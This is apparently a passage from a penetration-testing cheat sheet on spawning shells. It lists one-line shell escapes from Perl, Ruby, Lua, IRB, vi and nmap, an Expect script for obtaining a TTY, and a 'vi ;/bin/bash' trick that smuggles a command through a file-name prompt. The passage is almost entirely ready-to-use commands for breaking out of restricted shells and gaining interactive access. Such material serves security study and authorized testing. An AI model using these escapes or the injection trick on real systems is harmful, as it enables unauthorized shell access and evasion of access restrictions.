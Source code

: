 ```none
perl: exec "/bin/sh";
```

### Ruby

```none
ruby: exec "/bin/sh"
```

### Lua

```none
lua: os.execute('/bin/sh')
```

### IRB

(From within IRB)

```none
exec "/bin/sh"
```

### VI

(From within vi)

```none
:!bash
```

(From within vi)

```none
:set shell=/bin/bash:shell
```

Also, if we execute

```none
vi ;/bin/bash
```

Once, we exit vi, we would get shell. Helpful in scenarios where the user is asked to input which file to open.

### Nmap

(From within nmap)

```none
!sh
```

### Expect

Using “Expect” To Get A TTY

```none
$ cat sh.exp
# Spawn a shell, then allow the user to interact with it.
#!/usr/bin/expect
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```
